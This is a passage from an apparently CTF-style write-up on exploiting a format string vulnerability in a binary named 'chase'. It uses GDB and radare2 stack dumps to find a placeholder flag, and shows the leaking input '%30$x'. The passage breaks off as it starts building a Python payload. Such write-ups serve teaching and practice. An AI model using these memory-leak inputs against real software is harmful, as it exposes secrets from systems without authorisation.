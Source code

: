 {% tab title="Radare2" %}
```nasm
[0x0804927b]> pxw@esp
0xff9803a0  0xff9803b4 0x00000064 0xf7e2a620 0x080491e0  ....d... .......
0xff9803b0  0xf7c184be 0xf7f032a4 0xf7c05674 0xff98042c  .....2..tV..,...
0xff9803c0  0xf7f30ba0 0x00000002 0xf7ef1d00 0x00000001  ................
0xff9803d0  0x00000000 0x00000001 0xf7ef1680 0x00000001  ................
0xff9803e0  0x00c00000 0xf7f30c0c 0xff980464 0x00000000  ........d.......
0xff9803f0  0xf7f30000 0x00000020 0x00000000 0xff98046c  .... .......l...
0xff980400  0xf7f30ba0 0x00000001 0xf7ef1990 0x00000001  ................
0xff980410  0x00000000 0x00000001 0x67616c66 0x6d65747b  ........flag{tem
0xff980420  0x61726f70 0x665f7972 0x7d67616c 0xf7ef000a  porary_flag}....
0xff980430  0xf7f30608 0x00000020 0x00000000 0xff980680  .... ...........
```
{% endtab %}
{% endtabs %}

Here's why we use `flag{temporary_flag}` as the contents of _flag.txt_. `flag` in hex is `0x67616c66`. We see that it starts at `0xffffd568`, which we can verify:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/s 0xffffd568
0xffffd568:	"flag{temporary_flag}\n"
```
{% endtab %}

{% tab title="Radare2" %}
```nasm
[0x0804927b]> ps @ 0xff980418
flag{temporary_flag}

```
{% endtab %}
{% endtabs %}

We count that this starts at the 30th word on the stack. We can verify this using the format specifier in our input:

```nasm
$ ./chase
Hi, what is your name?
%30$x
67616c66
```

We count that the flag is from words `30` to `36`.

### Python Processing

Rather than doing this manually, we want to process the data to print out the flag easily. Let's see what this looks like.

The first thing we want to do is build the payload. Rather than typing it manually, we can use format strings to build it for us.
